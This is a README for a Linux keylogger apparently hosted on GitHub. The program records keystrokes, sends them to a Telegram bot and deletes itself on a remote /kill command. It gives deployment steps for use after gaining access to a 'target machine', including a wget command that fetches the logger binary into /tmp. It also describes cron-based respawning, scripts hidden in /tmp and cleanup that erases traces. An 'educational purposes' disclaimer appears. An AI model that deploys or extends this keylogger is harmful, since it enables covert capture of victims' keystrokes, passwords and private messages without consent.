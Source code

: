 # KeyL

This program records keystrokes and sends them to a telegram bot, until the attacker send the command /kill so the program delete itself from the target's machine.

It require root access to the target.

## Disclaimer:
This project of a Key Logger is for **educational purposes**. Use it **only** in controlled environments or virtual machines that you own. Do **not** deploy or use this code on any system without explicit permission from the owner. Misuse of this software may violate laws and going to jail it's dumb so use the brain.

## How2UseIt

Once you gain access to the target machine, copy and paste the content of `toBePasted.txt` to activate the persistent logger.

You need to configure it for your own setup. Here's how:

1. **Set Your Telegram Token** (Mandatory) 
   Open `config.py` and insert your Telegram bot token.  
   > If you’re unsure how to get one, just ask ChatGPT or refer to the [Telegram Bot API docs](https://core.telegram.org/bots).

2. **Customize Logger Behavior**  (Optional)
   You can configure the logger by modifying flags inside `KeyL.py`.  
   If you make changes, you'll need to build your own version to install.

By default, `toBePasted.txt` installs the static version hosted on GitHub:
```bash
wget -O /tmp/keyl https://raw.githubusercontent.com/fortigate3600/KeyL/main/keyl
```


Before starting the program, send a dummy message to the Telegram bot.
This is necessary for the bot to retrieve your chat_id and be able to respond to you.

To stop the keylogger on a specific machine remotely,
send the command `/kill <machine_id>` to the Telegram bot.


## How it works
<img width="800" height="400" alt="killSwitchMechanism" src="https://github.com/user-attachments/assets/aac92346-7d68-4f4b-8460-fb7a1a382a45" />

The persistence mechanism is simple (and quite weak): if the logger process is killed, it gets respawned automatically by a cronjob calling launc.sh.
I have hidden the .sh files in the /tmp directory. I could have made it stealthier, but this project is just for academic purposes.

Once the main program calls KillSwitch.sh, the latter delete every file concerning us, and cleans the crojob.

The make.sh script (or the toBePasted.txt) creates the files shown in the image above.
Now, let’s dive into what the code does.

## Code

It monitors every keypress and stores each key in a buffer. Once the buffer reaches a certain threshold, it sends the content to a Telegram bot.

Specifically, the monitorShift() function checks whether the Shift key is being held down and communicates this through a global flag to monitorKeys(), which logs the pressed keys. If necessary, the keys are passed through a dictionary to convert them to their uppercase equivalents.




